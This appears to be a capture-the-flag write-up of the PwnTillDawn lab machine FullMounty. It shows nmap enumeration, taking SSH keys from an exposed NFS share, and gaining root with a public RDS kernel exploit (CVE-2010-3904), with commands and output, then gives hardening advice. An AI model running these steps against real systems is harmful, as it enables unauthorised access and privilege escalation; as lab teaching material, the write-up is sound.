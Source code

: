 ```yaml
---
title: "PwnTillDawn - Fullmounty"
author: Nasrallah
description: ""
date: 2025-04-19 07:00:00 +0000
categories : [PwnTillDawn]
tags: [pwntilldawn, linux, medium, kernel, cve, nfs, ssh]
img_path: /assets/img/pwntilldawn/fullmounty
image:
    path: fullmounty.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

[FullMounty](https://online.pwntilldawn.com/Target/Show/64) from [PwnTillDawn](https://online.pwntilldawn.com/) starts with an NFS share containing ssh keys, we use the private key to gain initial foothold. The kernel used by the system is outdated with a vulnerability in RDS that leads to privilege escalation giving us a root shell.

## **Enumeration**

### nmap

We start an Nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.150.150.134
Host is up (0.15s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 5.3p1 Debian 3ubuntu7.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f6:e9:3f:cf:88:ec:7c:35:63:91:34:aa:14:55:49:cc (DSA)
|_  2048 20:1d:e9:90:6f:4b:82:a3:71:1e:a9:99:95:7f:31:ea (RSA)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      34154/tcp   mountd
|   100005  1,2,3      50354/udp   mountd
|   100021  1,3,4      45783/tcp   nlockmgr
|   100021  1,3,4      48262/udp   nlockmgr
|   100024  1          38840/udp   status
|_  100024  1          40110/tcp   status
2049/tcp open  nfs      2-4 (RPC #100003)
8089/tcp open  ssl/http Splunkd httpd
|_http-server-header: Splunkd
|_http-title: splunkd
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-10-28T09:51:59
|_Not valid after:  2022-10-27T09:51:59
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found 4 open ports, 22 running OpenSSH, 111 running rcp, 2049 is an NFS server and 8089 is running splunk on HTTPS.

### NFS

Let's start with NFS and list any available shares.

```terminal
sudo showmount -e 10.150.150.134
Export list for 10.150.150.134:
/srv/exportnfs 10.0.0.0/8
```

We found a `/srv/exportnfs` share, let's mount it.

```terminal
[★]$ sudo mount -t nfs 10.150.150.134:/srv/exportnfs /mnt/ctf -o nolock       
mount.nfs: mount system call failed
```

I got an error when mounting the share. With the help of chatGPT I added the vesion to be used in the command and it worked!

```bash
sudo mount -t nfs 10.150.150.134:/srv/exportnfs /mnt/ctf -o nolock,vers=3
```

Let's list the content of the share.

```terminal
┌──[10.66.66.230]─[sirius💀parrot]-[~/ctf/ptd/full]
└──╼[★]$ ls -la /mnt/ctf
total 32
drwxr-xr-x 5 nobody nogroup 4096 Oct 29  2019 .
drwxr-xr-x 1 root   root       6 Jan 21 11:16 ..
-rw------- 1 nobody nogroup  667 Oct 29  2019 .bash_history
drwxr-xr-x 5 nobody nogroup 4096 Oct 29  2019 .config
-rw-r--r-- 1 sirius docker    41 Oct 22  2019 FLAG49
-rw-r--r-- 1 sirius docker  1675 Oct  3  2019 id_rsa
-rw-r--r-- 1 sirius docker   397 Oct  3  2019 id_rsa.pub
drwxr-xr-x 3 nobody nogroup 4096 Oct 29  2019 .local
drwxr-xr-x 3 nobody nogroup 4096 Oct 29  2019 .mozilla
```

We found an SSH key pair.

I'll copy both to my working directory, give the write permissions to the private key and connect with it.

```terminal
┌──[10.66.66.230]─[sirius💀parrot]-[~/ctf/ptd/full]
└──╼[★]$ cp /mnt/ctf/id_rsa* .
```

Wait, we need a username to connect as? We can simply grab that from the public key.

```terminal
[★]$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAucbPtwj/Ot2rkrMxBSo63gnu8cUE2NboLy226zUjXwdeSLsh9WPfON/atMJCg/uMcvlpo598E/qUsAJq3TTJTYbdMkVSH3ArxUI0gN9rNVeOOs+MBFqfXYhfyLCFv+wtKyYDMeOxTE63hhEdbKVcGLCW8qhp6yORE7CcDnXqcCP5mJHlKdUqC9VBiYzcOzcKqSh6eCpfraKGsXqOcVvHVMgK8TB/JEHxkIZY2nxEl1WC62LKctEx0ZV7KTgJHhpWy1wyiPir4FOSPWUvUZDGv15B3D/M6UCRIguFllFerAacFVPW7SmKdtV3p4+HY3H1clAsWoLJiV1DRiBxoqZgEQ== deadbeef@ubuntu
```

It's `deadbeef`, let's connect.

## **Foothold**

```terminal
[★]$ ssh -i id_rsa deadbeef@10.150.150.134                                    
Unable to negotiate with 10.150.150.134 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
```

I got an error here regarding the key type, I'll add that type of key with `-oHostKeyAlgorithms=+ssh-rsa` and then reconnect.

```terminal
[★]$ ssh deadbeef@10.150.150.134 -i id_rsa -oHostKeyAlgorithms=+ssh-rsa                                                                                                                   
sign_and_send_pubkey: no mutual signature supported                                                                                                                                           
deadbeef@10.150.150.134: Permission denied (publickey).
```

Got another error! We solve that with the option `-oPubkeyAcceptedAlgorithms=+ssh-rsa`.

```terminal
[★]$ ssh deadbeef@10.150.150.134 -i id_rsa -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa
Linux FullMounty 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
Ubuntu 10.04.4 LTS

Welcome to Ubuntu!
 * Documentation:  https://help.ubuntu.com/
New release 'precise' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Thu Apr 17 09:49:55 2025 from 10.66.66.230
deadbeef@FullMounty:~$ id
uid=1000(deadbeef) gid=1000(deadbeef) groups=4(adm),20(dialout),24(cdrom),46(plugdev),107(lpadmin),108(sambashare),109(admin),1000(deadbeef)
```

## **Privilege Escalation**

Running `uname -a` on the target we find it using a pretty old kernel.

```terminal
deadbeef@FullMounty:~$ uname -a
Linux FullMounty 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
```

After searching on google for exploits and with some trial and error, we ended up with this [exploit](https://github.com/lucyoa/kernel-exploits/tree/master/rds) that works just fine.

Download the rds precompiled binary and upload it to the target then run it.

```terminal
deadbeef@FullMounty:~$ chmod +x rds 
deadbeef@FullMounty:~$ ./rds 
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc08c8c2c
 [+] Resolved default_security_ops to 0xc0773300
 [+] Resolved cap_ptrace_traceme to 0xc02f3dc0
 [+] Resolved commit_creds to 0xc016dcc0
 [+] Resolved prepare_kernel_cred to 0xc016e000
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
# id
uid=0(root) gid=0(root)
```

We got root!

## **Prevention and Mitigation**

### NFS share

We found an NFS service running on the target, listening on port 2049. The server was exporting the share /srv/exportnfs, which was accessible to any machine within the 10.0.0.0/8 IP range.

This share appeared to contain a user’s home directory, within which we discovered SSH keys. These keys were used to gain unauthorized access to the target system.

#### Recommendations for NFS Configuration

- Never expose sensitive directories such as home directories, which may contains private keys or credentials.

- Create a dedicated directory for NFS sharing, and apply strict content and permission controls

- Limit the access to only trusted hosts/subnets and avoid using broad CIDR ranges like `10.0.0.0/8`

#### Recommendations for SSH Key Handling

- SSH private keys should never be stored on shared or network-accessible locations. They should be kept in the user's local home directory with proper file permissions (chmod 600).

- Use passphrase-protected SSH keys to minimize the risk of unauthorized access if the key is ever leaked.

### Kernel

The kernel version identified on the target system is outdated and contains a known vulnerability in RDS, for which a publicly available exploit exists on the internet. This vulnerability can be leveraged to escalate privileges to root.

- Update the kernel to a newer version that fixes the vulnerability in RDS.
- Establish and maintain a regular patch management schedule to ensure critical security updates are applied in a timely manner, reducing exposure to known exploits.

## **References**

<https://github.com/lucyoa/kernel-exploits/tree/master/rds>

<https://nvd.nist.gov/vuln/detail/cve-2010-3904>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
